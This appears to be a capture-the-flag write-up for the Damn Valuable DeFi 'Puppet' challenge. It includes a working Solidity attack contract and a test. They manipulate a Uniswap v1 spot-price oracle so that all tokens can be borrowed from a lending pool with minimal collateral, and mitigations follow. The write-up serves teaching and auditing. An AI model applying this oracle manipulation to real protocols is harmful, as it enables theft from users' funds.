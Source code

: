 # Puppet

There's a lending pool where users can borrow Damn Valuable Tokens (DVTs). To do so, they first need to deposit twice the borrow amount in ETH as collateral. The pool currently has 100000 DVTs in liquidity.

There's a DVT market opened in an old Uniswap v1 exchange, currently with 10 ETH and 10 DVT in liquidity.

Pass the challenge by saving all tokens from the lending pool, then depositing them into the designated recovery account. You start with 25 ETH and 1000 DVTs in balance.

# Puppet Challenge - Vulnerability Report

## Overview
The Puppet challenge involves a lending pool that allows users to borrow Damn Valuable Tokens (DVTs) by depositing ETH as collateral. The pool uses a Uniswap v1 exchange as a price oracle to determine the required collateral amount. The vulnerability lies in the price oracle mechanism and how it can be manipulated.

## Vulnerability Details

### Severity: Critical
- Impact: High (Loss of all pool funds)
- Likelihood: High (Easy to execute)
- CVSS Score: 9.0

### Root Cause
The vulnerability stems from the lending pool's reliance on the Uniswap v1 exchange as a price oracle. The pool calculates the required collateral using the following formula in `calculateDepositRequired()`:

```solidity
function calculateDepositRequired(uint256 amount) public view returns (uint256) {
    return amount * _computeOraclePrice() * DEPOSIT_FACTOR / 10 ** 18;
}

function _computeOraclePrice() private view returns (uint256) {
    return uniswapPair.balance * (10 ** 18) / token.balanceOf(uniswapPair);
}
```

The key issues are:

1. **Manipulable Price Oracle**: The price is calculated directly from the Uniswap v1 pool's reserves without any time-weighted average or other protection mechanisms.

2. **No Slippage Protection**: The pool doesn't implement any slippage protection or minimum liquidity requirements.

3. **Single Source of Truth**: The pool relies solely on the Uniswap v1 pool's reserves for price determination.

## Attack Vector

An attacker can exploit this vulnerability by:

1. Using their initial DVT balance (1000 DVT) to manipulate the Uniswap v1 pool's reserves
2. Swapping a large amount of DVT for ETH in the Uniswap v1 pool
3. This drastically changes the price ratio in the pool
4. The lending pool's price oracle will now return a much lower price
5. The attacker can then borrow all tokens from the lending pool with minimal ETH collateral

## Proof of Concept

```solidity
contract PuppetAttack {
    IUniswapV1Exchange public immutable uniswapV1Exchange;
    PuppetPool public immutable lendingPool;
    DamnValuableToken public immutable token;
    address public immutable recovery;

    constructor(
        address _uniswapV1Exchange,
        address _lendingPool,
        address _token,
        address _recovery
    ) {
        uniswapV1Exchange = IUniswapV1Exchange(_uniswapV1Exchange);
        lendingPool = PuppetPool(_lendingPool);
        token = DamnValuableToken(_token);
        recovery = _recovery;
    }

    function attack() external payable {
        // 1. Approve Uniswap v1 exchange to spend our tokens
        token.approve(address(uniswapV1Exchange), token.balanceOf(address(this)));
        
        // 2. Swap all our DVT tokens for ETH
        // This will drastically change the price ratio in the pool
        uniswapV1Exchange.tokenToEthSwapInput(
            token.balanceOf(address(this)),
            1, // min_eth (we don't care about slippage)
            block.timestamp * 2 // deadline
        );
        
        // 3. Now the price oracle will return a much lower price
        // We can borrow all tokens from the lending pool with minimal ETH
        uint256 borrowAmount = token.balanceOf(address(lendingPool));
        uint256 depositRequired = lendingPool.calculateDepositRequired(borrowAmount);
        
        // 4. Borrow all tokens from the lending pool
        lendingPool.borrow{value: depositRequired}(
            borrowAmount,
            recovery
        );

        // 5. Send any remaining ETH back to the player
        if (address(this).balance > 0) {
            payable(msg.sender).transfer(address(this).balance);
        }
    }

    receive() external payable {}
}
```

And the test function that executes the attack:

```solidity
function test_puppet() public checkSolvedByPlayer {
    // Deploy the attack contract
    PuppetAttack attack = new PuppetAttack(
        address(uniswapV1Exchange),
        address(lendingPool),
        address(token),
        recovery
    );

    // Transfer all tokens to the attack contract
    token.transfer(address(attack), token.balanceOf(player));

    // Execute the attack
    attack.attack{value: player.balance}();
}
```

## Impact
- The attacker can drain all tokens from the lending pool (100,000 DVT)
- The attack requires minimal ETH collateral due to the manipulated price
- The attack can be executed in a single transaction

## Recommendations

### Short-term Fixes
1. Implement a time-weighted average price (TWAP) oracle instead of using spot prices
2. Add minimum liquidity requirements for the Uniswap pool
3. Implement slippage protection in the price calculation

### Long-term Fixes
1. Use multiple price oracles and aggregate their results
2. Implement circuit breakers for significant price movements
3. Add a minimum time delay between price updates
4. Consider using a more robust DEX like Uniswap v2 or v3 with built-in price protection mechanisms

## References
- [Uniswap v1 Documentation](https://docs.uniswap.org/contracts/v1/overview)
- [Price Oracle Manipulation](https://consensys.github.io/smart-contract-best-practices/development-recommendations/general/external-calls/#price-oracles)
- [ERC4626 Vault Standard](https://eips.ethereum.org/EIPS/eip-4626)
